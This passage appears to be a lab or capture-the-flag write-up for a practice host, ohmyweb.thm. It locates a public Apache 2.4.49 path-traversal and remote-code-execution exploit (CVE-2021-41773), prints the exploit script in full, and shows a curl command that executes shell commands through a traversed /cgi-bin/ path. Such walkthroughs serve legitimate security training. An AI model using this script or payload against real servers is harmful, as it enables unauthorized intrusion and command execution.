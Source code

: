 ```jsx
000045226:   403        7 L      20 W       199 Ch      "http://ohmyweb.thm/cgi-bin/" 
```

> **Exploitation Search Phase**
> 

**For more information:**

[Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)](https://www.exploit-db.com/exploits/50383)

`searchsploit 'Apache 2.4.49'`

```jsx
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)             | multiple/webapps/50383.sh
```

`searchsploit -m multiple/webapps/50383.sh`

```jsx
  Exploit: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
      URL: https://www.exploit-db.com/exploits/50383
     Path: /usr/share/exploitdb/exploits/multiple/webapps/50383.sh
    Codes: CVE-2021-41773
 Verified: True
File Type: ASCII text
Copied to: /root/Desktop/CyberLearningFramework/ohmyweb/50383.sh
```

`cat 50383.sh`

```jsx
# Credits: Ash Daulton and the cPanel Security Team

#!/bin/bash

if [[ $1 == '' ]]; [[ $2 == '' ]]; then
echo Set [TAGET-LIST.TXT] [PATH] [COMMAND]
echo ./PoC.sh targets.txt /etc/passwd
exit
fi
for host in $(cat $1); do
echo $host
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; $3" "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e$2"; done

# PoC.sh targets.txt /etc/passwd
# PoC.sh targets.txt /bin/sh whoami 
```

> **Remode Code Execution with Path Traversal & Reverse Shell Phase**
> 

`curl -skL -X GET 'http://ohmyweb.thm/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; whoami && pwd && id' -H "Content-Type: text/plain"` 
